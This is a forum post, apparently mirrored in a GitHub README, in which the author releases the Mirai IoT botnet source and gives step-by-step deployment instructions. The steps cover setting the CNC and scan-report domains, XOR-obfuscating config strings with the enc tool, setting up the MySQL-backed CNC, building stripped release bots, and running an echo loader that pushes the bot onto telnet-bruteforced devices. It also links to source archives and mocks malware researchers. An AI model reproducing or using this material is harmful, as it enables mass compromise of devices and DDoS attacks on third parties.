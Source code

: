 [FREE] World's Largest Net:Mirai Botnet, Client, Echo Loader, CNC source code release - Anna-senpai - 09-30-2016 11:50 AM

Preface
Greetz everybody,

When I first go in DDoS industry, I wasn't planning on staying in it long. I made my money, there's lots of eyes looking at IOT now, so it's time to GTFO. However, I know every skid and their mama, it's their wet dream to have something besides qbot.

So today, I have an amazing release for you. With Mirai, I usually pull max 380k bots from telnet alone. However, after the Kreb DDoS, ISPs been slowly shutting down and cleaning up their act. Today, max pull is about 300k bots, and dropping.

So, I am your senpai, and I will treat you real nice, my hf-chan.

And to everyone that thought they were doing anything by hitting my CNC, I had good laughs, this bot uses domain for CNC. It takes 60 seconds for all bots to reconnect, lol

Also, shoutout to this blog post by malwaremustdie
http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html
https://web.archive.org/web/20160930230210/http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html <- backup in case low quality reverse engineer unixfreaxjp decides to edit his posts lol
Had a lot of respect for you, thought you were good reverser, but you really just completely and totally failed in reversing this binary. "We still have better kung fu than you kiddos" don't make me laugh please, you made so many mistakes and even confused some different binaries with my. LOL

Let me give you some slaps back -
1) port 48101 is not for back connect, it is for control to prevent multiple instances of bot running together
2) /dev/watchdog and /dev/misc are not for "making the delay", it for preventing system from hanging. This one is low-hanging fruit, so sad that you are extremely dumb
3) You failed and thought FAKE_CNC_ADDR and FAKE_CNC_PORT was real CNC, lol "And doing the backdoor to connect via HTTP on 65.222.202.53". you got tripped up by signal flow ;) try harder skiddo
4) Your skeleton tool sucks ass, it thought the attack decoder was "sinden style", but it does not even use a text-based protocol? CNC and bot communicate over binary protocol
5) you say 'chroot("/") so predictable like torlus' but you don't understand, some others kill based on cwd. It shows how out-of-the-loop you are with real malware. Go back to skidland

5 slaps for you

Why are you writing reverse engineer tools? You cannot even correctly reverse in the first place. Please learn some skills first before trying to impress others. Your arrogance in declaring how you "beat me" with your dumb kung-fu statement made me laugh so hard while eating my SO had to pat me on the back.

Just as I forever be free, you will be doomed to mediocracy forever.


Requirements
Bare Minimum
2 servers: 1 for CNC + mysql, 1 for scan receiver, and 1+ for loading

Pro Setup (my setup)
2 VPS and 4 servers
- 1 VPS with extremely bulletproof host for database server
- 1 VPS, rootkitted, for scanReceiver and distributor
- 1 server for CNC (used like 2% CPU with 400k bots)
- 3x 10gbps NForce servers for loading (distributor distributes to 3 servers equally)


Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- TABLE_CNC_DOMAIN - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- TABLE_CNC_PORT - Port to connect to, its set to 23 already
- TABLE_SCAN_CB_DOMAIN - When finding bruted results, this domain it is reported to
- TABLE_SCAN_CB_PORT - Port to connect to for bruted results, it is set to 48101 already.

In ./mirai/tools you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
Code:
./build.sh debug telnet
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
Code:
./debug/enc string fuck.the.police.com

The output should look like this
Code:
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​

To update the TABLE_CNC_DOMAIN value for example, replace that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

[/code]
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
[/code]

Now that we know value from enc tool, we update it like this
Code:
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

Configuring CNC
Code:
apt-get install mysql-server mysql-client
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
Code:
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file ./mirai/cnc/main.go

Edit these values

Code:
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed


Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!
[Image: BVc7qJs.png]

2) http://santasbigcandycane.cx/loader.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!

How to build bot + CNC
In mirai folder, there is build.sh script.

Code:
./build.sh debug telnet
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to ./mirai/debug folder

Code:
./build.sh release telnet
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder


Building Echo Loader
Loader reads telnet entries from STDIN in following format:
Code:
ip:port user:pass
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget. You can find code to compile the tiny downloader stub h ere
http://santasbigcandycane.cx/dlr.src.zip

You need to edit your main.c for the dlr to include the HTTP server IP. The idea is, if the iot device doesn have tftp or wget, then it will echo load this 2kb binary, which download the real binary, since echo loading really slow.
When you compile, place your dlr.* files into the folder ./bins for the loader

Code:
./build.sh
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this

Code:
cat file.txt | ./loader

Remember to ulimit!

Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"
Contact GitHub API Training Shop Blog About
